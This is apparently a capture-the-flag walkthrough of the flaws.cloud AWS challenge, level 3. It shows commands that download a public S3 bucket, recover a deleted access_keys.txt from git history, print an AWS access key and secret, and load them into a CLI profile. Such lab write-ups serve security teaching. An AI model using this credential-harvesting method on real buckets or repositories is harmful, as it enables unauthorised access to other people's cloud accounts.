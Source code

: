 I used the following `sync` command to copy all the files into my local box for further enumeration.

```
% aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ .
```

Within the .git folder, `git log` showed logs of the git commits.

```
% git log
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

When I did the `checkout` command, I got the following error:

```
% git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
fatal: this operation must be run in a work tree
```

So, I had to specify the work tree to the current path.

```
% git --work-tree=/tmp/aws/level3/.git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
D	access_keys.txt
D	authenticated_users.png
D	hint1.html
D	hint2.html
D	hint3.html
D	hint4.html
D	index.html
D	robots.txt
HEAD is now at f52ec03 first commit
```

`access_keys.txt` was found and it disclose AWS access keys.

```
% cat access_keys.txt
access_key AKIAJ366LIPB4IJKT7SA
secret_access_key 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
```

Setting a new AWS profile with the found cred

```
% aws configure --profile level4
AWS Access Key ID [None]: AKIAJ366LIPB4IJKT7SA
AWS Secret Access Key [None]: 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
Default region name [None]:
Default output format [None]: json
```

